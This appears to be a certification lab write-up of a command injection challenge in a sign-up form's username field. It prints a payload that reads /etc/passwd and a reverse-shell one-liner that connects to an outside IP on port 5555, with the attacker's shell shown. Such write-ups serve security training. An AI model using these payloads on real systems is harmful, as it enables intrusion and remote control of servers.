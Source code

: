 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-14 05:00:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


### Challenge/Task

1. Command Injection

**Proof-of-Concept (POC):**

Command injection is a security vulnerability that allows attackers to execute arbitrary commands on a system through vulnerable application inputs. On the sign-up page, there are 4 input field. One of the field vulnerable to the command injection. I send a command at the username field , “;cat /etc/passwd;” to fetch list of users and the server respond to it. 

![POC-otb](/img/cwae/tuo1.png){: w="400" h="400" }{: .normal }
![POC-otb](/img/cwae/tuo2.png){: w="400" h="400" }{: .normal }

We can try to get a reverse shell here by using this command
```jsx
;echo "bash -i >& /dev/tcp/143.198.205.200/5555 0>&1" >> f.sh;chmod +x f.sh;bash f.sh
```

This command attempts to append a line to a file named f.sh, which, when executed, will open a reverse shell to the IP address 143.198.205.200 on port 5555. Then, it makes the file executable and runs it using Bash.

Listening to port 5555.

![POC-otb](/img/cwae/tuo3.png){: w="400" h="400" }{: .normal }

We got a reverse shell after clicking the “Sign-Up” button. 

![POC-otb](/img/cwae/tuo4.png){: w="400" h="400" }{: .normal }

To proof it, I run id and whoami command to show the server belongs to the victim. 
![POC-otb](/img/cwae/tuo5.png){: w="400" h="400" }{: .normal }